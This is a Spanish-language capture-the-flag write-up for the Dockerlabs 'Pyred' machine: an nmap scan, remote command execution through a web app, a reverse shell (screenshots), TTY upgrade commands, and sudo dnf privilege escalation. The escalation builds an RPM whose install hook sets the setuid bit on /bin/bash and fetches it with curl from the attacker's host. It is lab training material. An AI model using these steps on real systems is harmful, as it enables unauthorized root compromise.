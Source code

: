 Máquin Pyred

Iniciamos con reconocimiento de nmap:

```
# Nmap 7.94SVN scan initiated Tue May 14 18:05:50 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000060s latency).
Scanned at 2024-05-14 18:05:51 CEST for 0s
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE REASON
5000/tcp open  upnp    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue May 14 18:05:51 2024 -- 1 IP address (1 host up) scanned in 1.04 seconds
```

Vemos que hay una página web corriendo por el puerto 5000, al ver lo que hay ya huele a RCE mediante la libreria os:

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/e15a0735-36df-495d-9b27-5d29095b2692)

Efectivamente.

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/57b0ee8c-eb8c-4b59-b37e-f6172cd2d03c)


Al poder ejecutar cualquier comando, vamos a ejecutar una reverse shell:

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/ec75bf61-be86-4f0a-8f35-4b3687d859ce)

Ya hemos ganado acceso a la máquina

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/dbf75a9f-cc10-4da5-882f-635d224e1c8a)

Vamos a ver que hay dentro de la máquina, pero primero tratamiento de la tty:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
script /dev/null -c bash
{ctrl+z}
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty size 
stty rows 47 columns 210
```

vemos que al ejecutar sudo -l esta dnf para ejecutar como sudo, con la herramienta searchbin vemos si podemos hacer algo

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/7e0bd8b3-073c-4dfb-9a99-8b11e09c2c5d)

Ejecutamos lo que nos dice searchbins

Ejecutamos esots comandos en nuestra máquina local:
```
TF=$(mktemp -d)
echo 'chmos u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Al no tener wget para poder trasferirlo, lo hacemos de la siguiente manera:

```
python3 -m http.server 80
curl 172.17.0.1/x-1.0-1.noarch.rpm -o sudo.rpm
```

Una vez con el paquete creado en la máquina víctima:

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/ac0c5f30-99b7-4400-8603-3e6a202c5731)



                                   


                    
